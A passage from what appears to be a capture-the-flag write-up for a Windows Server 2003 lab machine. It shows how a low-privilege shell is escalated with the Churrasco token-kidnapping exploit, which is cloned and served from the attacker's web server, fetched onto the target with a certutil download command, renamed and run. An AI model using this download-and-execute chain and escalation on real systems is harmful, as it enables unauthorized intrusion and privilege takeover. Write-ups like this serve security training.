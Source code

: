 We got an initial shell, and found out we have the `nt authority\network service` permission and that the host is running a `Microsoft(R) Windows(R) Server 2003, Standard Edition`.

Next we can find a writable folder in 
```
C:\WINDOWS\system32\inetsrv\ASP Compiled Templates>
```
which we will use to test a file download.

A google search how to do a privilege escalation on a Windows 2003 Server brought the following interesting links:
* https://www.notion.so/Windows-Privelege-Escalation-via-Token-Kidnapping-d40705518bf343438f9fcd8be0b2f0d3
* https://github.com/jivoi/pentest/tree/master/exploit_win
* https://github.com/Re4son/Churrasco
* https://github.com/Re4son/Churrasco/raw/master/churrasco.exe

First we download `Churrasco` and start a local web server.
```
┌──(kali㉿kali)-[~/htb]
└─$ git clone https://github.com/Re4son/Churrasco.git
Cloning into 'Churrasco'...
remote: Enumerating objects: 16, done.
remote: Total 16 (delta 0), reused 0 (delta 0), pack-reused 16
Receiving objects: 100% (16/16), 223.30 KiB | 3.06 MiB/s, done.
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ cd Churrasco 
                                                                           
┌──(kali㉿kali)-[~/htb/Churrasco]
└─$ ls
Churrasco.cpp  Churrasco.suo                                   README.md
churrasco.exe  Churrasco.vcproj                                ReadMe.txt
Churrasco.ncb  Churrasco.zip                                   stdafx.cpp
Churrasco.sln  DEFCON-18-Cerrudo-Token-Kidnapping-Revenge.pdf  stdafx.h
                                                                           
┌──(kali㉿kali)-[~/htb/Churrasco]
└─$ python3 -m http.server                                
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.78.242 - - [17/Jul/2021 00:55:03] "GET /churrasco.exe HTTP/1.0" 200 -
```

On the target machine we start the file download into the `C:\WINDOWS\system32\inetsrv\ASP Compiled Templates` folder with 
```
certutil -split -f -urlcache "http://10.10.17.226:8000/churrasco.exe"
```

After the file download, the file will be renamed and executed
```
C:\WINDOWS\system32\inetsrv\ASP Compiled Templates>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\WINDOWS\system32\inetsrv\ASP Compiled Templates

07/17/2021  07:55 AM    <DIR>          .
07/17/2021  07:55 AM    <DIR>          ..
07/17/2021  07:55 AM            31,232 Blob0_0.bin
               1 File(s)         31,232 bytes
               2 Dir(s)  18,126,819,328 bytes free

C:\WINDOWS\system32\inetsrv\ASP Compiled Templates>rename blob0_0.bin churrasco.exe
rename blob0_0.bin churrasco.exe

C:\WINDOWS\system32\inetsrv\ASP Compiled Templates>churrasco
```